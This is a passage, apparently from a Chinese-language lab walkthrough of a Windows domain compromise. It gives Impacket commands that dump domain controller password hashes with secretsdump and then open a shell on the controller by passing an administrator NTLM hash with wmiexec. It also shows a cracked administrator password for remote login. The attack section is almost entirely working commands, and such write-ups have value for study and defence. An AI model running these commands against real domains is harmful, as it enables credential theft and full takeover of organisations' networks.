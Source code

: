 查看密码hash

> python secretsdump.py wings.com/WIN-13L1MQMKNIO$[@10](https://github.com/10).10.10.10 -just-dc -no-pass

[![](https://p0.ssl.qhimg.com/t01797d49828428c00c.png)](https://p0.ssl.qhimg.com/t01797d49828428c00c.png)

利用hash获取shell

> python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:6136ba14352c8a09405bb14912797793 wings.com/[administrator@10.10.10](mailto:administrator@10.10.10).10

[![](https://p3.ssl.qhimg.com/t01a0123079b08e5092.png)](https://p3.ssl.qhimg.com/t01a0123079b08e5092.png)

也可以利用抓取的hash解密后直接远程登入

[![](https://p0.ssl.qhimg.com/t01d84ba44767953853.png)](https://p0.ssl.qhimg.com/t01d84ba44767953853.png)

账号：WINGS\administrator （前面要加域的名字）<br>
密码：1qazcde3!@#

首次登入要修改密码

[![](https://p4.ssl.qhimg.com/t01fa5085172da16da1.png)](https://p4.ssl.qhimg.com/t01fa5085172da16da1.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0139f6a1972b6ac96f.png)
